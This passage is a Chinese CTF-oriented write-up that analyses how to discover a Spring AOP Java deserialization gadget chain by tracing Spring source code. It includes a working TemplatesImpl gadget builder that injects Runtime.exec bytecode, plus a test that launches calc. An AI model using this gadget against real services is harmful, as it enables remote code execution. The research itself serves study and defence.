# 原生新链-SPring AOP 原生链挖掘思路分析-先知社区

> **来源**: https://xz.aliyun.com/news/17629  
> **文章ID**: 17629

---

# 原生新链-SPring AOP 原生链挖掘思路分析

## 前言

这次软件攻防赛出了一道 java 题目，过滤了很多类，正好 spring aop 的原生链可以绕过，下面从发现者视角分析如何挖掘链子

## sink 点 AbstractAspectJAdvice

我们看到这个 sink 点的



有 invokeXXX 方法，一般这种方法利用的空间相比于其他还是比较大的

```
protected Object invokeAdviceMethod(@Nullable JoinPointMatch jpMatch, @Nullable Object returnValue, @Nullable Throwable ex) throws Throwable {
    return this.invokeAdviceMethodWithGivenArgs(this.argBinding(this.getJoinPoint(), jpMatch, returnValue, ex));
}

protected Object invokeAdviceMethod(JoinPoint jp, @Nullable JoinPointMatch jpMatch, @Nullable Object returnValue, @Nullable Throwable t) throws Throwable {
    return this.invokeAdviceMethodWithGivenArgs(this.argBinding(jp, jpMatch, returnValue, t));
}
```

这两个方法最后还是会调用到 invokeAdviceMethodWithGivenArgs 方法

我们看到这个方法

```
protected Object invokeAdviceMethodWithGivenArgs(Object[] args) throws Throwable {
    Object[] actualArgs = args;
    if (this.aspectJAdviceMethod.getParameterCount() == 0) {
        actualArgs = null;
    }

    try {
        ReflectionUtils.makeAccessible(this.aspectJAdviceMethod);
        return this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);
    } catch (IllegalArgumentException var4) {
        throw new AopInvocationException("Mismatch on arguments to advice method [" + this.aspectJAdviceMethod + "]; pointcut expression [" + this.pointcut.getPointcutExpression() + "]", var4);
    } catch (InvocationTargetException var5) {
        throw var5.getTargetException();
    }
}
```

如果我们的参数可以控制，这个代码逻辑至少是可以实现任意方法调用的

找到了这个 sink 点，我们就现在就需要测试了

首先梳理清楚我们的需要控制的点

第一输入的参数，如果这个可以控制，可以达到调用任意方法的效果，但是现在我们先尝试无参，先不管这个

想要实现任意方法，那么 aspectJAdviceMethod 至少需要控制

而且 this.aspectInstanceFactory.getAspectInstance()返回的对象也是我们需要控制的



aspectInstanceFactory是一个 AspectInstanceFactory 类型的参数，我们跟进

它有如下实现类  


我们需要满足返回可以指定的对象  
一个一个看



其中 SingletonAspectInstanceFactory 类的 getAspectInstance 方法直接返回对象 aspectInstance

我们可以反射控制

方法的话我们也是可以控制的，测试如下

这里使用的是我们的 TemplatesImpl 老朋友来作为测试

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;

import java.lang.reflect.Method;

public class Test {
    public static void main(String[] args) throws Exception {
        Object templatesImpl = TemplatesImplNode.makeGadget("calc");
        AspectJAroundAdvice aspectJAroundAdvice = Reflections.newInstanceWithoutConstructor(AspectJAroundAdvice.class);
        SingletonAspectInstanceFactory singletonAspectInstanceFactory=Reflections.newInstanceWithoutConstructor(SingletonAspectInstanceFactory.class);
        Reflections.setFieldValue(singletonAspectInstanceFactory,"aspectInstance", templatesImpl);
        Reflections.setFieldValue(aspectJAroundAdvice,"aspectInstanceFactory",singletonAspectInstanceFactory);
        Method targetMethod = Reflections.getMethod(TemplatesImpl.class,"newTransformer",new Class[0]);
        Reflections.setFieldValue(aspectJAroundAdvice,"aspectJAdviceMethod",targetMethod);
        Method method=Reflections.getMethod(AspectJAroundAdvice.class,"invokeAdviceMethodWithGivenArgs",new Class[]{Object[].class});
        method.setAccessible(true);
        method.invoke(aspectJAroundAdvice,new Object[]{new Object[]{}});

    }
}
```

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.Serializable;

public class TemplatesImplNode {
    public static Object makeGadget(String cmd) throws Exception {
        return createTemplatesImpl(cmd);
    }

    public static Object createTemplatesImpl ( final String command ) throws Exception {
        if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
            return createTemplatesImpl(
                    command,
                    Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
                    Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
                    Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
        }

        return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
    }

    public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
            throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        String cmd = "java.lang.Runtime.getRuntime().exec("" +
                command.replace("\", "\\").replace(""", "\"") +
                "");";
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
                classBytes, ClassFiles.classAsBytes(Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }

    public static class Foo implements Serializable {

        private static final long serialVersionUID = 8207363842866235160L;
    }
    public static class StubTransletPayload extends AbstractTranslet implements Serializable {

        private static final long serialVersionUID = -5971610431559700674L;


        public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}


        @Override
        public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
    }
}
```



成功实现控制，然后弹出计算器



证明我们的 sink 点是没有问题的

而且这个类也是实现了序列化接口



## 利用链寻找

### ReflectiveMethodInvocation

然后找到了 sink 点，就是一步一步向上寻找的过程了，这里给出路径

```
org.springframework.aop.framework.ReflectiveMethodInvocation#proceed->
org.springframework.aop.aspectj.AspectJAroundAdvice#invoke->
org.springframework.aop.aspectj.AbstractAspectJAdvice#invokeAdviceMethod(org.aspectj.lang.JoinPoint, org.aspectj.weaver.tools.JoinPointMatch, java.lang.Object, java.lang.Throwable)->
org.springframework.aop.aspectj.AbstractAspectJAdvice#invokeAdviceMethodWithGivenArgs
```

看到 proceed 方法

```
public Object proceed() throws Throwable {
    if (this.currentInterceptorIndex == this.interceptorsAndDynamicMethodMatchers.size() - 1) {
        return this.invokeJoinpoint();
    } else {
        Object interceptorOrInterceptionAdvice = this.interceptorsAndDynamicMethodMatchers.get(++this.currentInterceptorIndex);
        if (interceptorOrInterceptionAdvice instanceof InterceptorAndDynamicMethodMatcher) {
            InterceptorAndDynamicMethodMatcher dm = (InterceptorAndDynamicMethodMatcher)interceptorOrInterceptionAdvice;
            Class<?> targetClass = this.targetClass != null ? this.targetClass : this.method.getDeclaringClass();
            return dm.methodMatcher.matches(this.method, targetClass, this.arguments) ? dm.interceptor.invoke(this) : this.proceed();
        } else {
            return ((MethodInterceptor)interceptorOrInterceptionAdvice).invoke(this);
        }
    }
}
```

如果需要利用，那么需要控制 interceptorOrInterceptionAdvice 对象为 AspectJAroundAdvice

看到我们的对象是从

```
Object interceptorOrInterceptionAdvice = this.interceptorsAndDynamicMethodMatchers.get(++this.currentInterceptorIndex);
```

获取的，是从 interceptorsAndDynamicMethodMatchers 里面取出来的

`List interceptorsAndDynamicMethodMatchers

本质上是一个 list

但是遗憾的是 ReflectiveMethodInvocation 并没有实现序列化的接口



我们就不可以直接反射修改它的属性了，这个是非常难弄的一点

#### 控制 interceptorsAndDynamicMethodMatchers

那么我们如何控制这个属性呢？

只能寻找动态创建我们这个对象的地方

而且最好这个动态创建的类还是实现我们序列化接口的

好巧不巧找到了 JdkDynamicAopProxy

在它的 invoke 方法中正好实例化了 ReflectiveMethodInvocation 对象

```
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    Object oldProxy = null;
    boolean setProxyContext = false;
    TargetSource targetSource = this.advised.targetSource;
    Object target = null;

    Class var8;
    try {
        if (!this.equalsDefined && AopUtils.isEqualsMethod(method)) {
            Boolean var18 = this.equals(args[0]);
            return var18;
        }

        if (!this.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
            Integer var17 = this.hashCode();
            return var17;
        }

        if (method.getDeclaringClass() != DecoratingProxy.class) {
            Object retVal;
            if (!this.advised.opaque && method.getDeclaringClass().isInterface() && method.getDeclaringClass().isAssignableFrom(Advised.class)) {
                retVal = AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
                return retVal;
            }

            if (this.advised.exposeProxy) {
                oldProxy = AopContext.setCurrentProxy(proxy);
                setProxyContext = true;
            }

            target = targetSource.getTarget();
            Class<?> targetClass = target != null ? target.getClass() : null;
            List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
            if (chain.isEmpty()) {
                Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);
                retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);
            } else {
                MethodInvocation invocation = new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
                retVal = invocation.proceed();
            }

            Class<?> returnType = method.getReturnType();
            if (retVal != null && retVal == target && returnType != Object.class && returnType.isInstance(proxy) && !RawTargetAccess.class.isAssignableFrom(method.getDeclaringClass())) {
                retVal = proxy;
            } else if (retVal == null && returnType != Void.TYPE && returnType.isPrimitive()) {
                throw new AopInvocationException("Null return value from advice does not match primitive return type for: " + method);
            }

            Object var12 = retVal;
            return var12;
        }

        var8 = AopProxyUtils.ultimateTargetClass(this.advised);
    } finally {
        if (target != null && !targetSource.isStatic()) {
            targetSource.releaseTarget(target);
        }

        if (setProxyContext) {
            AopContext.setCurrentProxy(oldProxy);
        }

    }

    return var8;
}
```

### JdkDynamicAopProxy



这个类是实现了序列化接口的

#### 实现 chain 可控

找到了我们的类，那我们就需要控制 chain



```
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
```

跟进 getInterceptorsAndDynamicInterceptionAdvice 方法看看

```
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Method method, @Nullable Class<?> targetClass) {
    MethodCacheKey cacheKey = new MethodCacheKey(method);
    List<Object> cached = (List)this.methodCache.get(cacheKey);
    if (cached == null) {
        cached = this.advisorChainFactory.getInterceptorsAndDynamicInterceptionAdvice(this, method, targetClass);
        this.methodCache.put(cacheKey, cached);
    }

    return cached;
}
```

返回的是一个 cached，而其赋值是有两个地方的一个是从 methodCache 中直接拿出来，一个是从工厂类中重新创建

```
private transient Map<MethodCacheKey, List<Object>> methodCache;
```

```
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ois.defaultReadObject();
    this.methodCache = new ConcurrentHashMap(32);
}
```

是直接新建的，所以利用性几乎没有，只能走下一条路了，advisorChainFactory 是固定的

```
public AdvisedSupport() {
    this.targetSource = EMPTY_TARGET_SOURCE;
    this.preFiltered = false;
    this.advisorChainFactory = new DefaultAdvisorChainFactory();
    this.interfaces = new ArrayList();
    this.advisors = new ArrayList();
    this.methodCache = new ConcurrentHashMap(32);
}
```

而且它也只有一个实现



跟进getInterceptorsAndDynamicInterceptionAdvice 方法

```
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Advised config, Method method, @Nullable Class<?> targetClass) {
    AdvisorAdapterRegistry registry = GlobalAdvisorAdapterRegistry.getInstance();
    Advisor[] advisors = config.getAdvisors();
    List<Object> interceptorList = new ArrayList(advisors.length);
    Class<?> actualClass = targetClass != null ? targetClass : method.getDeclaringClass();
    Boolean hasIntroductions = null;
    Advisor[] var9 = advisors;
    int var10 = advisors.length;

    for(int var11 = 0; var11 < var10; ++var11) {
        Advisor advisor = var9[var11];
        if (advisor instanceof PointcutAdvisor) {
            PointcutAdvisor pointcutAdvisor = (PointcutAdvisor)advisor;
            if (config.isPreFiltered() || pointcutAdvisor.getPointcut().getClassFilter().matches(actualClass)) {
                MethodMatcher mm = pointcutAdvisor.getPointcut().getMethodMatcher();
                boolean match;
                if (mm instanceof IntroductionAwareMethodMatcher) {
                    if (hasIntroductions == null) {
                        hasIntroductions = hasMatchingIntroductions(advisors, actualClass);
                    }

                    match = ((IntroductionAwareMethodMatcher)mm).matches(method, actualClass, hasIntroductions);
                } else {
                    match = mm.matches(method, actualClass);
                }

                if (match) {
                    MethodInterceptor[] interceptors = registry.getInterceptors(advisor);
                    if (mm.isRuntime()) {
                        MethodInterceptor[] var17 = interceptors;
                        int var18 = interceptors.length;

                        for(int var19 = 0; var19 < var18; ++var19) {
                            MethodInterceptor interceptor = var17[var19];
                            interceptorList.add(new InterceptorAndDynamicMethodMatcher(interceptor, mm));
                        }
                    } else {
                        interceptorList.addAll(Arrays.asList(interceptors));
                    }
                }
            }
        } else if (advisor instanceof IntroductionAdvisor) {
            IntroductionAdvisor ia = (IntroductionAdvisor)advisor;
            if (config.isPreFiltered() || ia.getClassFilter().matches(actualClass)) {
                Interceptor[] interceptors = registry.getInterceptors(advisor);
                interceptorList.addAll(Arrays.asList(interceptors));
            }
        } else {
            Interceptor[] interceptors = registry.getInterceptors(advisor);
            interceptorList.addAll(Arrays.asList(interceptors));
        }
    }

    return interceptorList;
}
```

这个方法最后返回了一个 list，看看是如果构造的



一共有四个 add，但是 add 的对象都是 interceptor

而且都是

```
registry.getInterceptors(advisor)
```

这样获取的，其中 registry 不可以控制

```
AdvisorAdapterRegistry registry = GlobalAdvisorAdapterRegistry.getInstance();
```



是直接调用静态方法返回了

但是 advisor 可以控制，如果不可以就直接 g 了

```
Advisor[] advisors = config.getAdvisors();
```

config 跟踪下来是我们的 AdvisedSupport  
  


是继承了序列化接口的

